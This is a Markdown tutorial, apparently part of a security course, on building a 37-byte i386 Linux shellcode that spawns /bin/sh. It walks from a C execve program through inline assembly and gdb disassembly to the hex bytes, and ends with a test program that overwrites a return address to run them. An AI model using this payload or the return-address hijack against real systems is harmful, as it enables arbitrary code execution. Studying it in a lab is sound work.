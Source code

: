 # Building shellcode

The term *shellcode* is typically used to refer to that piece of code which allows to spawn a command line in the targeting system. This can be done from any process in execution provided it invokes the right call. This tutorial will focus on understanding a *shellcode* for i386 systems and how it's typically used.

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity2:latest .
```
and runned with:
```bash
docker run --privileged -it basic_cybersecurity2:latest
```

----

The code to spawn a shell in C looks like (`shellcode.c`):

```C
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
executing, it clearly gives us a shell:
```bash
root@1406e08c64b9:~# ./shellcode
#
```

Reading through literature [2], one can summarize that this C program consist of the following steps in assembly:

- a) Have the null terminated string "/bin/sh" somewhere in memory.
- b) Have the address of the string "/bin/sh" somewhere in memory followed by a null long word.
- c) Copy 0xb into the EAX register.
- d) Copy the address of the address of the string "/bin/sh" into the EBX register.
- e) Copy the address of the string "/bin/sh" into the ECX register.
- f) Copy the address of the null long word into the EDX register.
- g) Execute the int $0x80 instruction.
- h) Copy 0x1 into the EAX register.
- i) Copy 0x0 into the EBX register.
- j) Execute the int $0x80 instruction.

From [3], we can put together the following complete program assembled together in C (`shellcodeasm.c`):
```C
void main() {
__asm__(" \
          xor     %eax,       %eax; \
          xor     %edx,       %edx; \
          movb    $11,        %al; \
          push    %edx; \
          push    $0x68732f6e; \
          push    $0x69622f2f; \
          mov     %esp,       %ebx; \
          push    %edx; \
          push    %ebx; \
          mov     %esp,       %ecx; \
          int     $0x80; \
          movl   $0x1, %eax; \
          movl   $0x0, %ebx;  \
          int    $0x80;");
}
```

executing, it clearly gives us a shell:
```bash
root@1406e08c64b9:~# ./shellcodeasm
#
```
and disassembling it, we obtain the same (plus the corresponding instructions for the stack management at the beginning and end):
```
>>> disassemble main
Dump of assembler code for function main:
   0x080483ed <+0>:	push   %ebp
   0x080483ee <+1>:	mov    %esp,%ebp
   0x080483f0 <+3>:	xor    %eax,%eax
   0x080483f2 <+5>:	xor    %edx,%edx
   0x080483f4 <+7>:	mov    $0xb,%al
   0x080483f6 <+9>:	push   %edx
   0x080483f7 <+10>:	push   $0x68732f6e
   0x080483fc <+15>:	push   $0x69622f2f
   0x08048401 <+20>:	mov    %esp,%ebx
   0x08048403 <+22>:	push   %edx
   0x08048404 <+23>:	push   %ebx
   0x08048405 <+24>:	mov    %esp,%ecx
   0x08048407 <+26>:	int    $0x80
   0x08048409 <+28>:	mov    $0x1,%eax
   0x0804840e <+33>:	mov    $0x0,%ebx
   0x08048413 <+38>:	int    $0x80
   0x08048415 <+40>:	pop    %ebp
   0x08048416 <+41>:	ret    
End of assembler dump.
```
Now, a more compact version of the shellcode can be obtained by fetching the hexadecimal representation of all those assembly instructions above which can be obtained by directly looking at the memory:
```
>>> x/37bx 0x080483f0
0x80483f0 <main+3>:	0x31	0xc0	0x31	0xd2	0xb0	0x0b	0x52	0x68
0x80483f8 <main+11>:	0x6e	0x2f	0x73	0x68	0x68	0x2f	0x2f	0x62
0x8048400 <main+19>:	0x69	0x89	0xe3	0x52	0x53	0x89	0xe1	0xcd
0x8048408 <main+27>:	0x80	0xb8	0x01	0x00	0x00	0x00	0xbb	0x00
0x8048410 <main+35>:	0x00	0x00	0x00	0xcd	0x80
```
a total of 37 bytes of *shellcode*. Let's try it out:
```C
char shellcode[] =
      "\x31\xc0\x31\xd2\xb0\x0b\x52\x68"
      "\x6e\x2f\x73\x68\x68\x2f\x2f\x62"
      "\x69\x89\xe3\x52\x53\x89\xe1\xcd"
      "\x80\xb8\x01\x00\x00\x00\xbb\x00"
      "\x00\x00\x00\xcd\x80";

void main() {
   int *ret;    // a variable that will hold the return address in the stack

   ret = (int *)&ret + 2; // obtain the return address from the stack
   (*ret) = (int)shellcode; // point the return address to the shellcode
}
```
Code is self-explanatory, a local variable `ret` gets pointed to the return address which later gets modified to point at the global variable `shellcode` which contains the previously derived shell code. To make this work in a simple manner, we will disable gcc's stack protection mechanism producing:
```bash
root@51b56809b3b6:~# ./test_shellcode
#
```

### Resources

- [1] M. Hicks (2014), *Software Security*, Coursera, Cybersecurity Specialization, University of Maryland, College Park, <https://www.coursera.org/learn/software-security>.
- [2] A. One (1996), Smashing the Stack for Fun and Profit. Phrack, 7. Retrieved from http://insecure.org/stf/smashstack.html.
- [3] P. Clement (2011), *execve("/bin//sh", ["/bin//sh"], NULL) - Linux elf32-i386*. Retrieved from https://blog.thireus.com/execvebinsh-binsh-null/
